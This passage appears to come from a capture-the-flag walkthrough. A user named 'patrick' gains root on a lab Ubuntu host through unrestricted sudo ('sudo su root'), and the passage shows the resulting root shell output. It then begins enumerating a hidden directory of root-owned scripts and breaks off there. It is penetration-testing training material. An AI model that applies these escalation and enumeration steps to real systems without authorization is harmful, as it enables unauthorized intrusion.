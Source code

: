 **Armed with above information, we can directly escalate to root!**

**In the sudo permission, user `patrick` can run any commands as root:**
```
User patrick may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

**Let's Switch User to root!**
```
patrick@ubuntu:~$ sudo su root
root@ubuntu:/home/patrick# whoami;hostname;id;ip a
root
ubuntu
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:72:4d:ef:1b:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.53.4/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::72:4dff:feef:1b1f/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

### 2. patrick to root

**In the `patrick`'s home directory, we can find there is a hidden directory called `.bank_work`:**
```
patrick@ubuntu:~$ ls -lah
total 32K
drwxr-xr-x 4 patrick patrick 4.0K Dec 28 20:54 .
drwxr-xr-x 4 root    root    4.0K Aug  4 14:16 ..
drwxr-xr-x 3 root    root    4.0K Aug  4 10:35 .bank_work
-rw------- 1 patrick patrick  296 Dec 28 20:54 .bash_history
-rw-r--r-- 1 patrick patrick  220 Jul 14 18:20 .bash_logout
-rw-r--r-- 1 patrick patrick 3.7K Jul 14 18:20 .bashrc
drwx------ 2 patrick patrick 4.0K Jul 14 18:21 .cache
-rw-r--r-- 1 patrick patrick  655 Jul 14 18:20 .profile
-rw-r--r-- 1 patrick patrick    0 Jul 14 18:22 .sudo_as_admin_successful
```

**Let's check it out:**
```
patrick@ubuntu:~$ cd .bank_work/
patrick@ubuntu:~/.bank_work$ ls -lah
total 44K
drwxr-xr-x 3 root    root    4.0K Aug  4 10:35 .
drwxr-xr-x 4 patrick patrick 4.0K Dec 28 20:54 ..
-rw-r--r-- 1 root    root    1.5K Jun 28  2022 0312_Dealer_Schedule
-rw-r--r-- 1 root    root    1.5K Jun 28  2022 0315_Dealer_Schedule
drwxr-xr-x 3 root    root    4.0K Aug  4 09:56 bank
-rw-r--r-- 1 root    root      42 Jun 28  2022 script1.awk
-rw-r--r-- 1 root    root      44 Jun 28  2022 script2.awk
-rw-r--r-- 1 root    root    1.0K Aug  4 10:09 .script2.awk.swp
-rw-r--r-- 1 root    root      45 Jun 28  2022 script.awk
-rw-r--r-- 1 root    root    1.0K Aug  4 10:09 .script.awk.swp
-rwx------ 1 root    root     935 Aug  4 10:10 script.sh
```
